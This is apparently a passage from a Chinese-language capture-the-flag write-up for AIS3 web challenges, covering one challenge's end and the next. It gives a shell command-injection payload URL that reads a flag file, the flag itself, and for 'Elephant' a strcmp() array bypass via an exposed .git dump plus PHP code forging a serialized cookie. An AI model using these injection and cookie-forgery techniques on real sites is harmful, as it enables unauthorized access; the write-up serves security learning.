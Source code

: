 ```php=
        ]);
    }
} else {
    echo json_encode([
        'error' => 'empty file path'
    ]);
}

```

我們可以發現 \#6 有 command injection
注意有單引號

payload : `https://squirrel.ais3.org/api.php?get=';cat /5qu1rr3l_15_4_k1nd_0f_b16_r47.txt;'`

PS. 這題也跟去年有題好像 XD

- `AIS3{5qu1rr3l_15_4_k1nd_0f_b16_r47}`

## 🐘Elephant

提示說有 src 可以看到處翻都沒有
結果發現有 `.git/`
ok~ dump

接著還原出 index.php 看 src
取重要的部分看

![](https://i.imgur.com/k5RfZsZ.png)

![](https://i.imgur.com/BFHowCl.png)

吐 flag 的地方是用 `strcmp()` 比較的
怎麼可能 md5 之後會等於 flag 根本天方夜譚
那就直接戳爆 `strcmp()` 吧
給他一個 array 他就會回傳 `0` 繞過比較了

然後東西是先序列化再 base64
所以我們就構造一個 token 等於 array 的物件回去當cookie

```php=
<?php
class User {
    public $name;
    private $token;

    function __construct($name, $token) {
        $this->name = $name;
        $this->token = $token;
    }
}

$t = array();
$o = new User('a', $t);
echo base64_encode(serialize($o));
```
